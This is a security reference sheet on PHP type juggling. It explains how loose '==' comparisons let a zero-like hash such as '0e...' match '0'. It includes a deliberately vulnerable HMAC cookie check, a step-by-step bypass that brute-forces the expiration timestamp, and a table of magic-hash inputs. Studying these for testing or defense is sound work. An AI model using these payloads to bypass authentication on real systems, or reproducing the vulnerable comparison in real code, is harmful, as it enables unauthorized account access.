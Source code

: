 # PHP Juggling type and magic hashes

PHP provides two ways to compare two variables:

- Loose comparison using `== or !=` : both variables have "the same value".
- Strict comparison using `=== or !==` : both variables have "the same type and the same value".

## Type Juggling

### True statements

```php
var_dump('0010e2'   == '1e3');           # true
var_dump('0xABCdef' == ' 0xABCdef');     # true PHP 5.0 / false PHP 7.0
var_dump('0xABCdef' == '     0xABCdef'); # true PHP 5.0 / false PHP 7.0
var_dump('0x01'     == 1)                # true PHP 5.0 / false PHP 7.0
var_dump('0x1234Ab' == '1193131');
```

```php
'123'  == 123
'123a' == 123
'abc'  == 0
```

```php
'' == 0 == false == NULL
'' == 0       # true
0  == false   # true
false == NULL # true
NULL == ''    # true
```

### NULL statements

```php
var_dump(sha1([])); # NULL
var_dump(md5([]));  # NULL
```

### Example vulnerable code

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['$expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
	... 
```

The $cookie variable is provided by the user. The $key variable is a secret and unknown to the user.

If we can make the calculated hash string Zero-like, and provide "0" in the $cookie['hmac'], the check will pass.

```
"0e768261251903820937390661668547" == "0"
```

We have control over 3 elements in the cookie:
- $username - username you are targetting, probably "admin"
- $hmac - the provided hash, "0"
- $expiration - a UNIX timestamp, must be in the future

Increase the expiration timestamp enough times and we will eventually get a Zero-like calculated HMAC.

```
hash_hmac(admin|1424869663) -> "e716865d1953e310498068ee39922f49"
hash_hmac(admin|1424869664) -> "8c9a492d316efb5e358ceefe3829bde4"
hash_hmac(admin|1424869665) -> "9f7cdbe744fc2dae1202431c7c66334b"
hash_hmac(admin|1424869666) -> "105c0abe89825a14c471d4f0c1cc20ab"
...
hash_hmac(admin|1835970773) -> "0e174892301580325162390102935332" // "0e174892301580325162390102935332" == "0"
```

## Magic Hashes - Exploit

If the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhieHatSec](https://www.whitehatsec.com/blog/magic-hashes/)